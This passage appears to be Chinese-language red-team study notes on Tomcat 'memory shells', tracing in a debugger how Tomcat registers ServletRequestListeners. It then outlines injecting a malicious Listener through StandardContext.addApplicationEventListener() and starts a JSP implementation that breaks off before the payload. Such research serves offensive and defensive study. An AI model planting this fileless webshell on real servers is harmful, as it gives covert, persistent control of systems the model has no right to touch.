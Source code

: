 ![image-20250604113344827](/Users/macos/Desktop/red/资料/my_wiki/JAVAWEB内存马/JAVAWEB内存马研究.assets/image-20250604113344827.png)

```markdown
接着他会遍历results中的Listener，根据不同的类型放入不同的数组，我们这里的ServletRequestListener放入eventListeners数组中:
```

![image-20250604114213886](/Users/macos/Desktop/red/资料/my_wiki/JAVAWEB内存马/JAVAWEB内存马研究.assets/image-20250604114213886.png)

```markdown
往下翻几行可以看到，通过调用`getApplicationEventListeners()`获取`applicationEventListenersList`中的值，然后再设置applicationEventListenersList，可以理解为applicationEventListenersList加上刚刚实例化的eventListeners。
```

![image-20250604114630931](/Users/macos/Desktop/red/资料/my_wiki/JAVAWEB内存马/JAVAWEB内存马研究.assets/image-20250604114630931.png)
![image-20250604114910271](/Users/macos/Desktop/red/资料/my_wiki/JAVAWEB内存马/JAVAWEB内存马研究.assets/image-20250604114910271.png)

```markdown
1.接下来调试器窗口按F9，看第二个断点，根据调用堆栈我们找到了fireRequestInitEvent()方法
```

![img](/Users/macos/Desktop/red/资料/my_wiki/JAVAWEB内存马/JAVAWEB内存马研究.assets/image-20250604115425373-9009271.png)

```markdown
1.往下翻几行看到调用了 listener.requestInitialized(event); 
2.而这个 listener 就是我们的恶意 Listener 实例，可以看到是通过遍历 instances 数组，`而 instances 数组就是通过 getApplicationEventListeners 方法来进行获取的值
X.看到这儿是不是很熟悉了～ 没错就是上面那个函数将实例添加进去的地方,我们的内存马只需要添加到这个数组里面就可以了
```

![image-20250604120348902](/Users/macos/Desktop/red/资料/my_wiki/JAVAWEB内存马/JAVAWEB内存马研究.assets/image-20250604120348902.png)

![image-20250604121211102](/Users/macos/Desktop/red/资料/my_wiki/JAVAWEB内存马/JAVAWEB内存马研究.assets/image-20250604121211102.png)

![image-20250604120845781](/Users/macos/Desktop/red/资料/my_wiki/JAVAWEB内存马/JAVAWEB内存马研究.assets/image-20250604120845781.png)



###### 1.2.2.内存马实现

```markdown
根据上面的分析我们知道Listener来源于tomcat初始化时从web.xml实例化的Listener和applicationEventListenersList中的Listener，前者我们无法控制，但是后者我们可以控制，只需要往applicationEventListenersList中加入我们的恶意Listener即可。
实际上StandardContext存在`addApplicationEventListener()`方法可以直接给我们调用，往applicationEventListenersList中加入Listener。

所以我们的Listener内存马实现步骤:
1.继承并编写一个恶意Listener
2.获取StandardContext
3.调用`StandardContext.addApplicationEventListener()`添加恶意Listener
```

以下是代码的具体实现:

```
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="javax.servlet.*" %>
<%@ page import="javax.servlet.annotation.WebServlet" %>
<%@ page import="javax.servlet.http.HttpServlet" %>
<%@ page import="javax.servlet.http.HttpServletRequest" %>
<%@ page import="javax.servlet.http.HttpServletResponse" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.Field" %>

<%
    class S implements ServletRequestListener{
        @Override
```